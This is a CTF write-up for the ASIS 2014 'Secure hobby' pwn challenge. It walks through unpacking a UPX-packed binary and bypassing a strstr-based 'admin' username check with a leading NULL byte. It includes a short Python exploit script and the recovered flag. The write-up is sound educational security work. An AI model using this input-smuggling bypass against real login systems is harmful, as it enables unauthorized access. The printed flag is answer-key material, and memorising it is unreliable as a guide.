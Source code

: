 # ASIS Cyber Security Contest Finals 2014: Secure hobby

**Category:** Pwn
**Points:** 250
**Description:**

> [File](hobby_8524ad2ae5fde9a43d7e6b1956c8099b) is running here:
>
> ```bash
> nc asis-ctf.ir 12439
> ```

## Write-up

Let’s see what [the provided file](hobby_8524ad2ae5fde9a43d7e6b1956c8099b) could be:

```bash
$ file hobby_8524ad2ae5fde9a43d7e6b1956c8099b
hobby_8524ad2ae5fde9a43d7e6b1956c8099b: xz compressed data
```

So, we extract the file using the built-in `xz` or `unxz` commands:

* `xz -dc < hobby_8524ad2ae5fde9a43d7e6b1956c8099b > hobby`
* `unxz < hobby_8524ad2ae5fde9a43d7e6b1956c8099b > hobby`

Alternatively, extract the provided file using [p7zip](http://p7zip.sourceforge.net/):

```bash
7z x hobby_8524ad2ae5fde9a43d7e6b1956c8099b
```

Let’s find out what the extracted file is:

```bash
$ file hobby
hobby: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, stripped
```

## The Challenge

Let's connect to the service to see what we're dealing with

```bash
$ nc asis-ctf.ir 12439
-------------------------------------------------
| 	Welcome to Super Secure Auth Engine	|
-------------------------------------------------

1) Register
2) Login check
3) Show my secret

Enjoy ;)
1
Enter username: admin
Kidding Me? :(
```

So we cannot register the username `admin`. Registering other usernames does work, in which case we are given a key.

```bash
Enter username: hacknamstyle
Your key for login is: 6147466a6132356862584e306557786c95a6d58cd2be3f87ff4a27e51afaff87
```

This key can then be given as input to option two or three:

```bash
2
Enter key: 6147466a6132356862584e306557786c95a6d58cd2be3f87ff4a27e51afaff87
OK
User hacknamstyle authenticated

[..]

3
Enter key: 6147466a6132356862584e306557786c95a6d58cd2be3f87ff4a27e51afaff87
You don't have any secret! :(
```

From the output of option two we notice that the key somehow encodes the username (and probably some secret authentication code). It's likely that the secret associated with the `admin` username contains the flag. Let's load the binary in IDA to see whether we can calculate the key for `admin` ourselves. We notice that the code appears obfuscated and/or that the executable is packed (IDA detected few functions and the executable is not importing many API functions). Running `strings` on the executable reveals that it's packed with UPX.

```bash
$ strings hobby | grep -i upx
UPX!
$Info: This file is packed with the UPX executable packer http://upx.sf.net $
$Id: UPX 3.08 Copyright (C) 1996-2011 the UPX Team. All Rights Reserved. $
UPX!u
UPX!
UPX!
```

We can easily unpack this using [public UPX tools](http://upx.sourceforge.net/). Now we get a normal looking executable in IDA.

After some reversing, we have that the program reads the file `namak` on start-up, and saves the content to a global variable. When calculating the key for a user, this secret data appears to be used. Hence, since we don't know the content of the file, it appears we cannot calculate a valid key ourselves. However, while reversing the key generation algorithm, we notice that `strstr` is being used to check whether the username contains the string `admin`. Is it possible to bypass this check by including a leading NULL byte in the username? The answer is yes! Hence we get the key of the admin by using the username `\x00admin`. This key can then be used to read the secret of the admin (which is of course the flag):

```python
from netcatlib import *

# Get the key for admin
nc = Netcat('asis-ctf.ir', 12439)
nc.write("1\n")
nc.read_until("Enter username: ")
nc.write("\x00admin")
nc.read_until("Your key for login is: ")
key = nc.read_until("\n")
print "[+] Key for admin is", key,

# Get the secret of admin
nc = Netcat('asis-ctf.ir', 12439)
nc.write("3\n")
nc.read_until("Enter key: ")
nc.write(key)
nc.read_until("The flag is: ")
print "[+] Secret of admin:", nc.read_all()
```

The output of the script is:

```python
[+] Key for admin is 4147466b62576c7503812bbd45e23c059a0eab18e936b7ed
[+] Secret of admin: ASIS_65cc76f02093977bfd7629086e813666
```

## Other write-ups and resources

* <http://barrebas.github.io/blog/2014/10/31/asis-ctf-secure-hobby/>
* [Alternative Exploit in Python](http://pastebin.com/b2QVFK2U)
* [French](https://t0x0sh.org/asis-ctf-finals-hobby-pownable-250.html)
